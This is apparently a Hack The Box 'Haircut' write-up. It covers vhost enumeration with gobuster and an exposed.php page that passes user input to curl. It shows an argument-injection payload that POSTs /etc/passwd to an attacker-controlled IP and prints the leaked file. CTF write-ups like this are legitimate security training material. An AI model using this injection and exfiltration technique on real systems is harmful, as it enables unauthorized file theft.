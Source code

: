 ### Domains

```bash
┌──(kali㉿kali)-[~/machines/linux/haircut]
└─$ gobuster vhost -w domains.txt  --append-domain --url http://htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        domains.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 959 / 960 (99.90%)
===============================================================
Finished
===============================================================
```

### Curl page

There a route called `exposed.php` that allow us to make curl request to any URL we want.

Checking [https://gtfobins.github.io/gtfobins/curl/](https://gtfobins.github.io/gtfobins/curl/) we can see what kind of things we can do with cURL. Basically wiht cURL we can read and write files (upload files and download files)

- We cannot inject any command, altough we can try to fuzz for special chars and see if any gives us a positive result

It seems the it let us add parameters to the curl command that is being executed under the hood.

# Foothold

### Reading files

Let’s try and read the /etc/passwd file. 

- `http://10.10.14.5/test.html -X POST -d "@/etc/passwd"`

```bash
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologinsystemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/falsesystemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/falsesystemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/falsesystemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/falsesyslog:x:104:108::/home/syslog:/bin/false_apt:x:105:65534::/nonexistent:/bin/falselxd:x:106:65534::/var/lib/lxd/:/bin/falsemessagebus:x:107:111::/var/run/dbus:/bin/falseuuidd:x:108:112::/run/uuidd:/bin/falsednsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/falsemaria:x:1000:1000:maria,,,:/home/maria:/bin/bashmysql:x:110:117:MySQL Server,,,:/nonexistent:/bin/falselightdm:x:111:118:Light Display Manager:/var/lib/lightdm:/bin/falsepulse:x:112:121:PulseAudio daemon,,,:/var/run/pulse:/bin/falsesshd:x:113:65534::/var/run/sshd:/usr/sbin/nologin
```